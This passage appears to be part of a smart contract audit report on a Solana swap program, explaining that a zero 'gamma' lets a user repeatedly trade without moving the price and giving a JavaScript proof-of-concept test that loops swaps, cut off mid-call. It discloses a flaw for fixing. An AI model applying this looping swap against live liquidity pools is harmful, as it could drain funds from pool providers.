 That would also means if the "gamma" is "0", then this is the best possible swap outcome. If a user does this in a for loop multiple times in a cheap network, user can trade significant amount of tokens without changing the price.

#### Coded PoC (values are the same as in the above textual scenario):
```javascript
it("swap_from_sol_to_usdc2", async ()=> {
      for(let i =0 ;i< 3 ; i++){
      // let fromAmount = 2 * LAMPORTS_PER_SOL;
      let fromAmount = 40000;

      const solTokenAccount = payerSolTokenAccount;
      const usdcTokenAccount = payerUsdcTokenAccount;
      console.log("fromWallet PublicKey:" + fromWallet.publicKey);
      console.log('solWalletTokenAccount:' + solTokenAccount);
      console.log('usdcWalletTokenAccount:' + usdcTokenAccount);    

      // increase from pool liquidity
      const transferTranscation = new Transaction().add(
        // transfer SOL to from wallet
        SystemProgram.transfer({
          fromPubkey: payerWallet.publicKey,
          toPubkey: fromWallet.publicKey,
          lamports: fromAmount,
        }),
        // trasnfer SOL to WSOL into ata account
        SystemProgram.transfer({
          fromPubkey: fromWallet.publicKey,
          toPubkey: solTokenAccount,
          lamports: fromAmount,
        }),
        // sync wrapped SOL balance
        token.createSyncNativeInstruction(solTokenAccount)
      );

      await provider.sendAndConfirm(transferTranscation, signers, { commitment: "confirmed" });

      const initBalance = await provider.connection.getBalance(fromWallet.publicKey);
      console.log("fromWallet Balance:" + initBalance);
      const tokenBalance = await provider.connection.getTokenAccountBalance(solTokenAccount);
      console.log("fromTokenAccount amount:" + tokenBalance.value.amount);
      console.log("fromTokenAccount decimals:" + tokenBalance.value.decimals);

      const fromPoolParams = await poolUtils.generatePoolParams(solTokenMint, usdcTokenMint, solFeedAccount, solPriceUpdate);
      const toPoolParams = await poolUtils.generatePoolParams(usdcTokenMint, usdcTokenMint, usdcFeedAccount, usdcPriceUpdate);
      const quotePoolParams = await poolUtils.generatePoolParams(usdcTokenMint, usdcTokenMint, usdcFeedAccount, usdcPriceUpdate);
      const [fromPrice, fromFeasible] = await poolUtils.getOraclePriceResult(fromPoolParams.wooconfig, fromPoolParams.wooracle, solPriceUpdate, usdcPriceUpdate);
      console.log(`price - ${fromPrice}`);
      console.log(`feasible - ${fromFeasible}`);

      const [toPrice, toFeasible] = await poolUtils.getOraclePriceResult(toPoolParams.wooconfig, toPoolParams.wooracle, usdcPriceUpdate, usdcPriceUpdate);
      console.log(`price - ${toPrice}`);
      console.log(`feasible - ${toFeasible}`);

      const tx = await program
        .methods
        .tryQuery(new BN(fromAmount))
        .accounts({
```